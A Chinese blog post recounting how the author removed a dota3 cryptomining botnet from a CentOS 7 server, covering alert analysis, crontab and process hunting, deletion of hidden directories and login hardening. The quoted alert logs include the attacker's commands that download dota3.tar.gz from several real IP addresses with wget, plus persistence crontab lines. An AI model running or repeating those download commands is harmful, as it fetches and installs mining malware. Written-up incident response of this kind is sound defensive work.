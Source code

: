 ```yaml
---
layout: post
title: CentOS7 下处理挖矿僵尸网络dota3木马攻击
tags: linux CentOS security
categories: security
---
```

<style type="text/css">
    p{text-indent: 20px}
</style>
<p>凌晨的时候，收到阿里云服务器的告警短信。<span style="color:red">紧急安全事件：访问恶意下载源，访问恶意下载IP。</span> 瞬间惊醒，立刻爬起来处理。</p>

<p>先登录阿里云后台，查看安全中心的告警祥情，发现有几条记录：</p>
```shell
父进程路径：/usr/bin/bash
父进程命令行：sh -c ./tddwrt7s.sh "http://67.205.135.65/dota3.tar.gz" 
"http://91.121.51.120/dota3.tar.gz" "http://51.75.28.134/dota3.tar.gz" 
"http://159.203.17.176/dota3.tar.gz" "http://46.101.113.206/dota3.tar.gz" 
"http://104.131.189.116/dota3.tar.gz" "http://81.12.13.145/dota3.tar.gz" >.out 2>&1 3>&1
```
***
```shell
父进程id：15912
进程id：15913
用户名：user_web
URL链接：http://91.121.51.120/dota3.tar.gz
进程路径：/usr/bin/bash
命令行参数：/bin/bash ./tddwrt7s.sh http://67.205.135.65/dota3.tar.gz 
http://91.121.51.120/dota3.tar.gz http://51.75.28.134/dota3.tar.gz 
http://159.203.17.176/dota3.tar.gz http://46.101.113.206/dota3.tar.gz 
http://104.131.189.116/dota3.tar.gz http://81.12.13.145/dota3.tar.gz
```
***
```shell
父进程路径：/usr/bin/bash
父进程命令行：-bash
父进程id：9071
进程id：9186
用户名：user_web
URL链接：http://45.55.129.23/dota3.tar.gz
进程路径：/usr/bin/wget
命令行参数：wget http://45.55.129.23/dota3.tar.gz
```
***

root账号，登录服务器，排查问题。

查看服务器有无可疑的TCP端口：
$ netstat -lnpt
没有发现非常用端口。

根据告警信息，拿进程id找对应的进程，一个都没有找到。

### 一、立刻做几个操作：
1. 修改web_user密码（当前服务器除了root，就只有web_user授权ssh登录）；
2. 修改root密码，禁止root的ssh登录（只能先登录web_user，再切到root账号）；
3. 清掉/root/.ssh/authorized_keys 里面所有公钥（禁止所有密钥登录）；

然后，再一步步来查。
<p>没有找到对应的进程，看下是不是有crontab，定时执行，执行完进程就退出，找不到告警时的进程id。</p>

### 二、查找服务器所有账号的crontab:
```shell
$ cat /etc/passwd | cut -f 1 -d : |xargs -I {} crontab -l -u {}
...
no crontab for tcpdump
no crontab for ntp
no crontab for saslauth
no crontab for mysql
5 8 * * 0 /home/user_web/.configrc/a/upd>/dev/null 2>&1
@reboot /home/user_web/.configrc/a/upd>/dev/null 2>&1
5 8 * * 0 /home/user_web/.configrc/b/sync>/dev/null 2>&1
@reboot /home/user_web/.configrc/b/sync>/dev/null 2>&1  
0 0 */3 * * /tmp/.X25-unix/.rsync/c/aptitude>/dev/null 2>&1
no crontab for haproxy
...
```
发现了crontab，脚本在user_web目录。

- 立刻删除 /home/user_web/目录下，crontab使用的 和 不认识的隐藏目录。
- 查看是不是user_web账号起的crontab：
```shell
$ crontab  -l -u user_web
5 8 * * 0 /home/user_web/.configrc/a/upd>/dev/null 2>&1
@reboot /home/user_web/.configrc/a/upd>/dev/null 2>&1
5 8 * * 0 /home/user_web/.configrc/b/sync>/dev/null 2>&1
@reboot /home/user_web/.configrc/b/sync>/dev/null 2>&1  
0 0 */3 * * /tmp/.X25-unix/.rsync/c/aptitude>/dev/null 2>&1
```
果然是user_web起的。

- 清理web_user下所有的crontab。
```shell
$ crontab  -r -u user_web
```

### 三、查找还有没有使用user_web账号运行的进程：
```shell
$ ps -ef | grep user_web
user_web      25408     1  0 00:14 ?        00:00:00 /tmp/.X25-unix/.rsync/c/lib/64/tsm --library-path /tmp/.X25-unix/.rsync/c/lib/64/ /tmp/.X25-unix/.rsync/c/tsm64 -t 515 -f 1 -s 12 -S 10 -p 0 -d 1 p ip
root     32695 30901  0 01:06 pts/1    00:00:00 grep --color=auto user_web
user_web      18775     1  0 Mar25 ?        00:00:08 rsync
user_web      18790     1 99 Mar25 ?        00:40:06 ./kswapd0
```
找到了user_web执行的进程，脚本文件所在的路径，在 /tmp/ 目录下的隐藏文件。
进入目录：
```shell
$ cd /tmp/
```
进入目录，查看包括隐藏文件在内的所有文件：
```shell
$ ls -la
```
删掉隐藏目录：
```shell
$ rm -rf .X25-unix
```

### 四、根据告警中出现的进程路径/usr/bin/bash，再次查找sh脚本进程：
```shell
$ ps -ef | grep sh
user_web  3768      1  0 00:00 ?      00:00:00 /bin/bash ./go
root      24487     1  0 Mar25 ?      01:53:25 /usr/sbin/sshd -D
user_web  25403 25402  0 00:14 ?      00:00:00 /bin/bash ./tsm -t 515 -f 1 -s 12 -S 10 -p 0 -d 1 p ip
root      30862 24487  0 01:37 ?      00:00:01 sshd: user_web [priv]
user_web  30866 30862  0 01:37 ?      00:00:00 sshd: user_web@pts/1
user_web  30867 30866  0 01:37 pts/1  00:00:00 -bash
root      30901 30896  0 01:38 pts/1  00:00:00 bash
root      31799 30901  0 01:53 pts/1  00:00:00 grep --color=auto sh
```
又找到了几个可疑的进程。查看进程信息，找进程执行路径cwd，对应的执行命令cmd：
```shell
$ ll /proc/25403 
```
找到进程脚本路径，删掉脚本文件所在的文件夹：

至此，清理完毕。

### 后续： 加强异地登录的告警，强化账号登录的认证，添加部署谷歌验证器(Google Authenticator) 

>后记，观察几天，再没有收到阿里云的告警信息。


